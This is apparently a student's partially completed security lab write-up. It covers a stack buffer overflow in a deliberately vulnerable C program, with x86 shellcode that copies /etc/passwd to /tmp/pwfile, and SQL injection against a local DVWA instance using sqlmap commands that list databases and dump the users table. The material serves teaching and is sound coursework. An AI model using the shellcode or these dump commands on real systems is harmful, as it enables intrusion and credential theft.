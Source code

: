 # Lab #1,22110070, Dinh To Quoc Thang, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

a) Compile asm program and C program to executable code. 
-C program:
``` 
    seed@6f32731f3ee3:~/seclabs/bof$ gcc -g vuln1.c -o vuln1.out -fno-stack-protector
```
-asm program:
```
seed@6f32731f3ee3:~/seclabs/bof$ nasm -f elf32 -o shellcode.o shellcode.asm
seed@6f32731f3ee3:~/seclabs/bof$ ld -o shellcode shellcode.o
```

b) Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

-Need to find the exact number of bytes to overwrite the return address, that is 20 bytes.
```
r $(python -c "print('A' * 32)")
```
-When the program crashes, use info registers esp to see the address of ESP (stack pointer), this is where the shellcode will be located.
```
info registers esp
```
![alt text](./image/Screenshot2024-10-21093246.png)

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
a) I find about the vulnerability of the SQL injection page in DVWA
-When submit id=1 it show this URL:
```
http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#
```
-I change "id=1" to "id=1'" and I got an SQL related error message, which could indicate that the site might be vulnerable to SQL injection.:
```
http://localhost/vulnerabilities/sqli/?id=1'&Submit=Submit#
```
![alt text](Screenshot2024-10-21100741.png)

b)Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" --dbs
```
![alt text](Screenshot2024-10-21103025.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
a) Use sqlmap to get tables:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa --tables
```
-This is table of dvwa:
![alt text](Screenshot2024-10-21103822.png)

b) Use sqlmap to get users informations:
```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=6o88lqnu5evhq7m6tio1bsnmg2; security=low" -D dvwa -T users --dump
```

-This is users informations:
![alt text](Screenshot2024-10-21104553.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
